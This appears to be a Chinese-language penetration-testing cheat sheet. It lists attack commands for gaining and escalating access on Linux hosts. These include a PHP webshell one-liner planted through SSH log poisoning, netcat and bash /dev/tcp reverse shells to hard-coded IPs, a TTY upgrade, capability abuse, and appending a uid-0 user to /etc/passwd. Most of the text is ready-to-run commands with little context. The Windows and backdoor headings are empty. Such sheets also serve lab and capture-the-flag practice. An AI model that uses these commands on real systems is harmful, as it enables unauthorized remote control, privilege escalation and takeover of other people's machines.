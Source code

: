 ### 收集信息

###### enum4linux

```
用于枚举Windows和Samba主机中的数据。
```











### GET-shell



#### ssh日志get-shell

```
直接尝试登陆
ssh '<?php @eval($_REQUEST['cmd']);?>'@ip

这里输错几次密码 同时，这段一句话木马也会留在/var/log/auth.log里，如果没有被转译的话

然后用蚁剑连接
```



#### 反弹shell

###### netcat反弹

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.36.101.179 443 >/tmp/f");?>

```

###### bash反弹

```
bash -i >& /dev/tcp/192.168.1.106/8888 0>1&
bash -i >& /dev/tcp/192.168.1.106/8888 0>1& | bash
```



### 提权

#### linux

基本上先看`sudo -l`

看看有哪些权限

###### 升级tty shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

###### capabilities提权

```
CAP_DAC_READ_SEARCH 忽略文件读及目录搜索的 DAC 访问限制

使用getcap查看权限，如：tar拥有权限，可以打包后，再解压文件，实现越权读取
```

###### /etc/passwd提权

构造一个用户 uid设置为0

```
#利用openssl生成加密的密码, 语法：openssl passwd-1-salt[salt value]password
openssl passwd -1 -salt user3 pass123
 
#mkpasswd类似于openssl passwd，它将生成指定密码字符串的哈希值。
mkpasswd -m SHA-512 pass
 
#利用python中的crypt库生成
python -c 'import crypt; print crypt.crypt("pass", "$6$salt")'
 
#利用Perl和crypt来使用salt值为我们的密码生成哈希值
perl -le 'print crypt("test","addedsalt")'
 
#php语言
php -r "print(crypt('aarti','123') . " ");"


echo "test:adMpHktIn0tR2:0:0:User_like_root:/root:/bin/bash" >>/etc/passwd


```



#### windows

### 后门
